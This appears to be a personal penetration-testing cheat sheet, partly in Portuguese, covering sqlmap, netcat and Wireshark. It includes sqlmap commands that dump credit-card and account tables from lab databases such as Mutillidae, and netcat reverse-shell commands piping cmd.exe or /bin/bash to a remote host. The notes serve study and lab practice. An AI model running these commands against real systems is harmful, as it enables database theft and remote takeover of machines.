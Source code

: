 ```
       $ sqlmap -u "URL_DO_FORMS" --dump -T credit_cards -D nowasp => Vai tentar retornar o conteúdo da tabela informada
       $ sqlmap -u <url> –D <db_name> –tables <table> –columns “password,username” –dump  => mostra as informações das colunas que eu informar 
       $ sqlmap -u "URL" --data="email=alex@gmail.com&senha=123"  => A opção --data é utilizada para passar os parâmetros enviados pela requisição POST, através desses parâmetros o sqlmap irá tentar fazer a injeção de código SQL
       $ sqlmap -u "URL_DO_FORMS" --batch  => Executa o sqlmap sem que ele faça perguntas no terminal, irá retornar apenas algumas respostas padrão
       $ sqlmap -u <url> --technique TU    => Caso eu queria explorar Sql Injection baseado em tempo e no comando UNION
       $ sqlmap -u "URL" --batch --dbms mysql --os linux --threads 3 -D mutillidae -T accounts -C "username,password,is_admin" --dump  => Estamos passando uma url com parâmetro para o sqlmap a fim de baixar os dados da base de dados mutillidae, tabela accounts e colunas username, password e is_admin para visualizar os dados de usuários, senhas e administrador. Além disso, ela melhorou a performance do comando ao utilizar comandos que informam o gerenciador de base dados, o sistema operacional utilizado no servidor e a quantidade de requisições.
       $ 
       $ 
       $ 
       ! Threads no sqlmap se refere a quantidade de requisições que ele faz em um instante de tempo, quanto maior o número passado mais poder computacional será exigido, pode ser definido por --threads [1-10]
       ! --crawl=2 caso você informe alguma url sem nenhum parametros - ao invés de "<url>/category=", você informa "<url>" - o método crawl irá fazer a busca pelos parametros ele encontrar na página  
       ! Para melhorar a performance infome a base de dados usada (se a caso já souber) com --dbms PostgreSQL, o sistema operacional usado com --os, --batch para o sqlmap não ficar fazendo perguntas na tela
       ! 
       https://portswigger.net/web-security/sql-injection/cheat-sheet
       https://www.codigofonte.com.br/artigos/a-historia-do-sql-injection
       https://www.alura.com.br/artigos/sql-injection-proteja-sua-aplicacao
!Netcat:
       $ nc.exe -nlvp 4444 -e cmd.exe  => Create a reverse shell with Ncat using cmd.exe on Windows
         nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe
       $ nc -nv $ip_victim 4444 -e /bin/bash  => Create a reverse shell with Ncat using bash on Linux
         nc -lvp 4444 (victim) 
       $ nc -lvp 9000                  => Listening a TCP/IP connection, -l of listening, -v verbose and -p of port.
         nc 127.0.0.1 9000             => To connect to the port that is listening 
       $ nc -nv $ip 4444 < file        => Send a file using netcat
       $ nc -nlvp 4444 > incoming.exe  => Receive a file using netcat
       $ nc -zv <ip> 1-90              => Nc will scan port 1 until 90 
       $ 
       $ 

!Wireshark: https://www.wireshark.org/  - Wireshark is the world’s foremost and widely-used network protocol analyzer. It lets you see what’s happening on your network at a microscopic level and is the de facto (and often de jure) standard across many commercial and non-profit enterprises, government agencies, and educational institutions. Wireshark development thrives thanks to the volunteer contributions of networking experts around the globe and is the continuation of a project started by Gerald Combs in 1998.
       *ip.addr==algum_ip   => para filtrar no wireshark
       [SYN] => Synchronization
       [ACK] => Acknowledgement. ACK means that the machine sending the packet with ACK is acknowledging data that it had received from the other machine. 
       [PSH] => PSH is an indication by the sender that, if the receiving machine's TCP implementation has not yet provided the data it's received to the code that's reading the data (program, or library used by a program), it should do so at that point. 

!Hydra: 
```